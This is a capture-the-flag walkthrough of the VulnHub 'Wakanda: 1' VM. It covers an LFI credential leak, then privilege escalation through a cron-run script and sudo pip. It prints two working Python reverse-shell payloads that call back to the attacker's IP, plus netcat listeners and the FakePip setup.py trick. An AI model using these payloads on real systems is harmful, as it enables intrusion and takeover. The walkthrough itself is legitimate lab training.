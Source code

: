 
# Wakanda: 1 — VulnHub CTF Walkthrough

> Difficulty: Intermediate  
> Author: xMagass  
> Platform: [VulnHub - Wakanda: 1](https://www.vulnhub.com/entry/wakanda-1,251/)  
> Flags: 3 (user, devops, root)

---

## 🛠️ Reconnaissance

### 🔍 Network Scanning
```bash
netdiscover
nmap -sC -sV -A -p- 192.168.*.*

```
Open ports found:
- 80 (HTTP)
- 111 (RPC)
- 333 (SSH)
- 33970 (RPC)

---

## 🌐 Web Enumeration

- Accessing `http://192.168.*.*` gives a basic web page.
- `dirb http://192.168.*.*` reveals `index.php`, but it’s not accessible.
- Found `?lang=` parameter in source code (commented).
- Tested for LFI using:
```bash
http://192.168.*.*/?lang=php://filter/convert.base64-encode/resource=index
```
- Base64 decoding reveals:
  - Username: `mamadou`
  - Password: `Niamey4Ever227!!!`

---

## 🔐 Initial Access

### SSH Login
```bash
ssh mamadou@192.168.*.* -p 3333
```
- On login, Python shell prompt received.
- Spawn Bash shell:
```python
import pty
pty.spawn("/bin/bash")
```
- ✅ First Flag Found in `/home/mamadou/flag1.txt`

---

## 👥 Privilege Escalation to devops

- Search for files owned by `devops`:
```bash
find / -user devops 2>/dev/null
```
- Found: `/srv/.antivirus.py`
- Replaced its content with Python reverse shell payload:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.*.*",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```
- Setup listener:
```bash
nc -lnvp 1234
```
- Wait for cronjob execution — received reverse shell as `devops`.
- ✅ Second Flag: `/home/devops/flag2.txt`

---

## 🔝 Privilege Escalation to root

### Using `pip` as sudo
- Check sudo privileges:
```bash
sudo -l
```
- `pip` is executable as sudo.

### FakePip Exploit
- Clone [FakePip GitHub Repo](https://github.com/0x00-0x00/FakePip)
- Modify `setup.py`:
```python
reverse_shell = 'python -c "import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'192.168.*.*\',13372));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\'/bin/bash\')"' 
```
- Serve and transfer file:
```bash
cp setup.py /var/www/html
service apache2 start
wget http://192.168.*.*/setup.py
```
- Start listener:
```bash
nc -lnvp 13372
```
- Execute on target:
```bash
sudo /usr/bin/pip install . --upgrade --force-reinstall
```
- ✅ Root Flag: `/root/root.txt`

---

## 🏁 Summary

| Flag         | Location             | User        |
|--------------|----------------------|-------------|
| flag1.txt    | /home/mamadou/       | mamadou     |
| flag2.txt    | /home/devops/        | devops      |
| root.txt     | /root/               | root        |

---

## 🎯 Techniques Used
- Enumeration (Nmap, Dirb)
- LFI via `php://filter`
- Base64 decoding
- SSH access
- Cronjob privilege escalation
- Sudo misconfiguration with `pip`
- FakePip reverse shell exploit

---

**Author:** Walkthrough  by Faisal Khan  
**Original VM Author:** xMagass  

## Author

👤 **Faisal Khan**  
📂 Cybersecurity Enthusiast | CTF Player | Bug Bounty Hunter  
🔗 GitHub:  [GitHub] (https://github.com/mrfaisal607)  